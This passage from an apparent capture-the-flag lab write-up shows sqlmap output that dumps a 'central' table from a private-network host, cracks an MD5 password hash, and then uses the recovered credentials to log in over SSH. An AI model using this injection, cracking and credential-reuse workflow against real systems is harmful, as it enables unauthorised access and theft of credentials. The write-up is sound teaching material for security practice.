 ```shell
[11:25:34] [INFO] recognized possible password hashes in column 'password'
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[11:25:34] [INFO] using hash method 'md5_generic_passwd'
[11:25:34] [INFO] resuming password '999999999' for hash 'c8c605999f3d8352d7bb792cf3fdb25b' for user 'pmccentral'
[11:25:34] [INFO] starting dictionary-based cracking (md5_generic_passwd)
Database: nebuladb                                                                                                                                                    
Table: central
[2 entries]
+----+--------------+----------------------------------------------+-------------+
| id | role         | password                                     | username    |
+----+--------------+----------------------------------------------+-------------+
| 1  | Security     | c8c605999f3d8352d7bb792cf3fdb25b (999999999) | pmccentral  |
| 2  | Experiment 1 | 6dd0ec0f2c1588fcff2b4cf6b4eca72e             | experiment1 |
+----+--------------+----------------------------------------------+-------------+

[11:25:43] [INFO] table 'nebuladb.central' dumped to CSV file '/home/synix/.local/share/sqlmap/output/192.168.209.4/dump/nebuladb/central.csv'
[11:25:43] [INFO] fetched data logged to text files under '/home/synix/.local/share/sqlmap/output/192.168.209.4'

[*] ending @ 11:25:43 /2024-09-02/
```
- Got Many juice stuff!!!
- On the dashboard its mentioned, if you are from PMC central log in with SSH.
- So, log in ssh with `pmccentral:999999999` (password got from the dump)
<br>

## Exploitation

```shell
┌──(synix㉿zer0day)-[~]
└─$ ssh pmccentral@192.168.209.4 
pmccentral@192.168.209.4's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-169-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 02 Sep 2024 07:29:27 AM UTC

  System load:             0.24
  Usage of /:              35.5% of 9.75GB
  Memory usage:            22%
  Swap usage:              0%
  Processes:               139
  Users logged in:         1
  IPv4 address for enp0s3: 192.168.209.4
  IPv6 address for enp0s3: 2402:3a80:4421:87c5:a00:27ff:fed1:3dc7
  IPv6 address for enp0s3: 2402:3a80:4411:442c:a00:27ff:fed1:3dc7

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro
```